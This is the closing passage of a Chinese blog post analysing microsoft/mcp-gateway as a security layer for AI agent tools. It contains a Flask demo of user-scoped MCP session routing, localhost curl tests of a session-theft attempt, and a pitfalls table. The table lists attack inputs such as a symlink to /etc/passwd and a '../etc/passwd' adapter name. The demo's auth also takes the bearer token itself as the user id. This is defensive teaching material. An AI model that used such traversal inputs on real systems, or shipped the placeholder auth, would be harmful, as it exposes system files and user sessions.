# 必须的输入校验
SESSION_ID_PATTERN = re.compile(r"^[a-zA-Z0-9\-]{1,128}$")
ALLOWED_ADAPTERS = {"weather", "github", "jira"}

def auth_required(f):
    @wraps(f)
    def wrapper(*args, **kwargs):
        token = request.headers.get("Authorization", "")
        # 简化：JWT 解析 → user_id
        g.user_id = token.replace("Bearer ", "") or "anonymous"
        return f(*args, **kwargs)
    return wrapper

def is_valid_session_id(sid: str) -> bool:
    return bool(sid) and bool(SESSION_ID_PATTERN.match(sid))

def build_scoped_key(user_id: str, adapter: str, session_id: str) -> str:
    if not is_valid_session_id(session_id):
        raise ValueError("Invalid session id")
    if adapter not in ALLOWED_ADAPTERS:
        raise ValueError("Unknown adapter")
    return f"{user_id}:{adapter}:{session_id}"

@app.post("/mcp/<adapter_name>")
@auth_required
def mcp_proxy(adapter_name: str):
    """核心数据面：转发 MCP Streamable HTTP 到后端 Pod"""
    # 1. 提取 session_id（query 或 header）
    sid = request.args.get("session_id") or request.headers.get("mcp-session-id", "")
    
    # 2. 计算 Scoped Key（关键安全不变量）
    scoped_key = build_scoped_key(g.user_id, adapter_name, sid)
    
    # 3. 解析路由
    if sid:
        target = session_store.get(scoped_key)
        if not target:
            return jsonify({"error": "Session not found or expired"}), 404
    else:
        # 新 session：从该 adapter 所有 Pod 随机选一个
        target = f"http://{adapter_name}-pod-{hash(g.user_id) % 3}.cluster.local"
        session_store[scoped_key] = target
    
    # 4. 转发请求到目标 Pod（生产环境用 requests/httpx）
    # response = httpx.post(target + "/mcp", ...)
    return jsonify({
        "proxied_to": target,
        "scoped_key": scoped_key,  # 仅演示，生产别回传
        "user_id": g.user_id,
    }), 200


if __name__ == "__main__":
    app.run(host="0.0.0.0", port=8080)
```

**测试 MVP 的安全性**：

```bash
# Bob 创建一个 session
curl -X POST 'http://localhost:8080/mcp/weather?session_id=abc123' \
  -H 'Authorization: Bearer bob'
# → {"proxied_to": "http://weather-pod-0.cluster.local", "scoped_key": "bob:weather:abc123"}

# Eve 用 Bob 的 session_id 来偷
curl -X POST 'http://localhost:8080/mcp/weather?session_id=abc123' \
  -H 'Authorization: Bearer eve'
# → {"error": "Session not found or expired"}  ✅ 攻击失败！

# Eve 拼一个 Eve 的 session_id，假装自己（成功是预期的）
curl -X POST 'http://localhost:8080/mcp/weather?session_id=eve-sess-1' \
  -H 'Authorization: Bearer eve'
# → 创建了 Eve 自己的 session
```

### 6.3 踩坑预警

| 坑 | 现象 | 解决方案 |
|---|------|---------|
| **裸 session_id 做 key** | 用户 A 偷用户 B 的 session | 立即改成 `{user}:{adapter}:{sess}` |
| **词法路径检查** | `notes.md` symlink 到 `/etc/passwd` | 必须 `realpath` 后再 containment |
| **shell 进程继承 gateway env** | 敏感 env 泄露给攻击者 | `Environment.Clear()` + 白名单 |
| **SessionStore 不 TTL** | Redis 内存爆炸 | 滑动窗口 + 绝对过期（mcp-gateway: 1h 滑动 / 12h 绝对） |
| **Bash 输出无 cap** | agent 输出 100MB 撑爆 | 16 KiB 输出 cap（mcp-gateway 默认） |
| **denylist 不更新** | 新攻击手法绕过 | 升级到 gVisor / firejail（README 也建议 P3+ 升级） |
| **Adapter 名无校验** | `../etc/passwd` 路径穿越 | adapter name 正则：`^[a-z0-9-]+$` |

### 6.4 实战集成建议

| 阶段 | 行动 |
|------|------|
| **第 1 周** | 抄 `BuildScopedSessionKey` + `IsValidSessionId` 到你的 Gateway |
| **第 2 周** | 加 `SimplePermissionProvider` 做 creator/admin RBAC |
| **第 3 周** | 加 `Path canonicalization`（用 Python `os.path.realpath` + `os.sep` 边界） |
| **第 4 周** | 加 `Bash denylist` + 环境变量白名单 |
| **第 2 个月** | 接入 K8s StatefulSet 部署 + Application Insights |
| **第 3 个月** | 评估升级 gVisor / firejail，替换 denylist |

---

## 七、结论：MCP 不是协议，是攻击面

读 microsoft/mcp-gateway 最大的收获不是"学会用某个工具"，而是看清一个真相：

> **MCP 不只是一个协议，它是 Agent 攻击面的主要扩展点。**

每接一个 MCP tool，等于给 Agent 装一支枪：
- 没有 Gateway → 每支枪独立配保险（成本高、容易漏）
- 有 Gateway → 一道安检门统一检查 Session、路径、shell、环境

**MCP Gateway 的真正价值**：
1. **横向扩展**：从单 Agent 单 MCP → 多 Agent 多 MCP 共享同一组后端
2. **安全收口**：3 层防御原语（Session 绑定 + Symlink 防御 + Bash sandbox）
3. **运维标准化**：控制平面 API 让 MCP Server 生命周期可被 K8s 编排
4. **审计可观测**：所有请求集中记录，符合企业合规要求

**留给你的思考**：
- 你现在的 Agent 直接调 MCP Server 吗？有没有 Session 绑定的 user 维度？
- 你在路径处理上做了 symlink canonicalization 吗？还是只用了 `startswith`？
- 你给 Bash 工具设了超时、输出 cap、环境白名单吗？

如果 3 个问题里有 1 个答案是"没有"，**今天就花 30 分钟把 mcp-gateway 的 3 个原语抄过去**。这是 2026 年 Agent 平台必须有的"工业级扳机保险"。

---

## 八、参考资料

- **microsoft/mcp-gateway** GitHub: <https://github.com/microsoft/mcp-gateway>
- **MCP 协议规范**: <https://modelcontextprotocol.io/introduction>
- **mark3labs/mcp-go** (Go SDK, 8.8k⭐): <https://github.com/mark3labs/mcp-go>
- **agentic-community/mcp-gateway-registry**: <https://github.com/agentic-community/mcp-gateway-registry>
- **本系列前文**:
  - Rule 组件: [agents-md 深度解析](https://xuqi2024.github.io/2026/06/27/2026-06-27-agents-md-rule-component-harness-architecture-deep-dive/)
  - Skill 组件: [SkillOpt / ReflACT](https://xuqi2024.github.io/2026/06/28/2026-06-28-skillopt-microsoft-reflact-skill-training-deep-dive/)
  - Sub-Agent 组件: [GoClaw 多租户隔离](https://xuqi2024.github.io/2026/06/29/2026-06-29-goclaw-sub-agent-multi-tenant-isolation-deep-dive/)
  - Workflow 组件: [Restate Durable Execution](https://xuqi2024.github.io/2026/06/30/2026-06-30-restate-harness-6-workflow-component-durable-execution-deep-dive/)
  - Script 组件: [AGT Script](https://xuqi2024.github.io/2026/07/01/2026-07-01-agt-script-component-harness-engineering-deep-dive/)
  - AGT Sub-Agent 失败恢复: [AGT Sub-Agent](https://xuqi2024.github.io/2026/07/02/2026-07-02-agt-sub-agent-failure-recovery-engineering-deep-dive/)

> **下一篇预告**：Harness 6 件套专题收官之作 —— **Context Engineering 组件深度横评**（对比 SimpleMem / Cognee / Letta / OpenViking），看"长期记忆"这件 Harness 内部最难的事，四家开源实现各自走了哪条路。